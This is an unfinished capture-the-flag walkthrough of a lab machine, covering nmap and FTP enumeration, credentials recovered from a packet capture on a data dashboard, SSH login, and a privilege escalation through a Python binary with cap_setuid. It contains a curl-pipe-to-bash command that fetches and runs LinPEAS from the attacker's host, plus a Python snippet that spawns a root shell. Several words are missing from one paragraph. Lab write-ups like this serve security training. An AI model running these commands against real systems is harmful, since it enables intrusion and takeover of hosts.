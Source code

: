 *Not finished*

We start with nmap
```
nmap -sC -sV {victim ip}
```

We use FTP to login to the victim's box. 

```
ftp {victim's ip}
```
The login with anonymous access fails, so we attempt to login through the HTTP server.

We can visit the web application via `{ip}:80` and there is a data dashboard there without login.

When opening the web address `10.10.10.245/data/0` and capturing the output in wireshark, we get the credentials `nathan:Buck3H4TFORM3!`, we use this to `ssh` into the victim's box.

### Privilege Escalation

On our local we download linpeas and run `sudo python3 -m http.server 80` so we can get it via `curl` from the victim's box.

```
curl http://10.10.14.24/linpeas.sh | bash
```

After running LinPEAS on the attacking box we get

```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The report contains an interesting entry for files with capabilities. The is found to have and , which isn't the default setting. According to the documentation, allows the process to gain setuid privileges without the SUID bit set. This effectively lets us switch to UID 0 i.e. root. The developer of Cap must have given Python this capability to enable the site to capture traffic, which a non-root user can't do.

The following Python commands will result in a root shell:

```
import os  
os.setuid(0) 
os.system("/bin/bash")
```

It calls os.setuid() which is used to modify the process user identifier (UID).
